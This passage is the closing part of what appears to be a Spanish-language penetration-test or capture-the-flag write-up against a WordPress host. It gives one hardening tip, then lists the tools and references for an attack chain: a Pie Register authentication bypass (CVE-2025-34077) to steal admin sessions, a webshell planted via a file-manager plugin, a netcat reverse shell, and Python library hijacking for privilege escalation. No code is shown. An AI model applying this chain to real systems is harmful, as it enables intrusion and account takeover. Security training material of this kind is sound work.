- **Buenas prácticas generales**: ejecutar el servicio web con un usuario sin privilegios, auditar periódicamente la configuración de `sudo` y los permisos de los directorios, y minimizar la superficie expuesta.

## Herramientas utilizadas

- [`nmap`](https://nmap.org/) — escaneo y enumeración de puertos y servicios.
- [`wpscan`](https://github.com/wpscanteam/wpscan) — enumeración de usuarios y plugins de WordPress.
- Exploit para [CVE-2025-34077](https://www.exploit-db.com/exploits/52370) — *bypass* de autenticación de Pie Register para robar la sesión de admin.
- Navegador web (herramientas de desarrollador) — inyección de las cookies de sesión robadas.
- [WP File Manager](https://wordpress.org/plugins/wp-file-manager/) — plugin usado para editar ficheros del servidor y colocar la webshell.
- [`revshells.com`](https://www.revshells.com/) — generación del payload de reverse shell.
- [`php-reverse-shell` (pentestmonkey)](https://github.com/pentestmonkey/php-reverse-shell) — webshell PHP empleada como payload.
- [`netcat`](https://netcat.sourceforge.net/) — listener para recibir la reverse shell.
- [`python3`](https://gtfobins.github.io/gtfobins/python/) — intérprete abusado para el pivote y la escalada final.

## Referencias

- [CVE-2025-34077 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-34077)
- [CVE-2025-34077 — Exploit-DB (EDB-ID 52370)](https://www.exploit-db.com/exploits/52370)
- [Pie Register — WordPress.org](https://wordpress.org/plugins/pie-register/)
- [GTFOBins — python](https://gtfobins.github.io/gtfobins/python/)
- [HackTricks — Linux Privilege Escalation (Python library hijacking)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#python-library-hijacking)
- [HackTricks — Pentesting WordPress](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress)
- [PayloadsAllTheThings — Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [WPScan — GitHub](https://github.com/wpscanteam/wpscan)
- [pentestmonkey — php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
- [revshells.com — Online Reverse Shell Generator](https://www.revshells.com/)
- [WP File Manager — WordPress.org](https://wordpress.org/plugins/wp-file-manager/)
- [OWASP — Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [Nmap Reference Guide](https://nmap.org/book/man.html)
